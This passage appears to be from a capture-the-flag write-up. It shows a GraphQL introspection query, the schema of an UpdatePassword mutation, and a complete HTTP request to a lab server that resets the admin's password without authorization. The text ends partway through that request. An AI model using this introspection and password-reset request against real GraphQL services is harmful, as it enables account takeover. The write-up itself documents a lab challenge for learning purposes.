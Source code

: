 ```http
  "query": "{__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name, kind}}}}}}}"
}
```

And here is the `UpdatePassword` Mutation
```json
{
  "name": "UpdatePassword",
  "args": [
    {
      "name": "username",
      "description": null,
      "type": {
        "name": null,
        "kind": "NON_NULL",
        "ofType": {
          "name": "String",
          "kind": "SCALAR"
        }
      }
    },
    {
      "name": "password",
      "description": null,
      "type": {
        "name": null,
        "kind": "NON_NULL",
        "ofType": {
          "name": "String",
          "kind": "SCALAR"
        }
      }
    }
  ]
}
```

We can see we need two parameters (username,password) which we can change every user's password without proper authorization.\
Here is the graphql query for updating admin's password (I built it based on login mutation which is similar to UpdatePassword)

```http
POST /graphql HTTP/1.1
Host: 138.68.162.218:32084
Content-Length: 191
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://138.68.162.218:32084
Referer: http://138.68.162.218:32084/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fa;q=0.8
Connection: close
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IjB4MTciLCJpc19hZG1pbiI6MCwiaWF0IjoxNjc5Nzk3MDQ0fQ.54ogANqo_0hbJBlo_RtgWQDOoUQ3qeRz7ayBqW4KosU

{
  "query": "mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message, token } }",
  "variables": {
    "username": "admin",
    "password": "1234"
```